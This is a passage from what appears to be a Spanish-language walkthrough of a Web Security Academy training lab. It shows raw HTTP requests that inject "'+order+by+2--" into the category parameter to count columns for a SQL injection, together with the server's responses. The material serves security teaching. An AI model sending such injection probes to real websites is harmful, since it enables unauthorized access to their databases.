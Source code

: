 ```
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a76002004acf6bd82c6fb1900d600e1.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

Lo anterior responde asi:

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3862

```

Se procede a incrementar el valor a 2:

```
GET /filter?category='+order+by+2-- HTTP/2
Host: 0a76002004acf6bd82c6fb1900d600e1.web-security-academy.net
Cookie: session=4r7p479MteGfJHw186eSSaLBr06RDplw
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: es-CO
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a76002004acf6bd82c6fb1900d600e1.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

Lo anterior responde asi:

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3862

```
